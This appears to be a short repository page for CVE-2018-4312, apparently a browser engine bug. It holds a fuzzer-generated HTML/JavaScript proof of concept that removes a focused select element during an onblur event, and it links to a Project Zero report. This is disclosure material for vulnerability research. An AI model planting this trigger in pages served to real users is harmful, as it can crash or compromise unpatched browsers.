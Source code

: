 # CVE-2018-4312

## PoC

```html
<script>
function jsfuzzer() {
 var a;
 for(var i=0;i<100;i++) {
   a = new Uint8Array(1024*1024);
 }
 document.implementation.createHTMLDocument("doc");
}
function eventhandler4() {
try { htmlvar00007.remove(); } catch(e) { }
}
</script>
<body onload=jsfuzzer()>
<select id="htmlvar00007" onblur="eventhandler4()" autofocus="autofocus" min="1" align="Right">
</select>
<button id="htmlvar00013" autofocus="autofocus" formmethod="post" formnovalidate="formnovalidate" formmethod="post" formtarget="htmlvar00004" inner="1" valign="middle">
```

## Reference

- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1603)
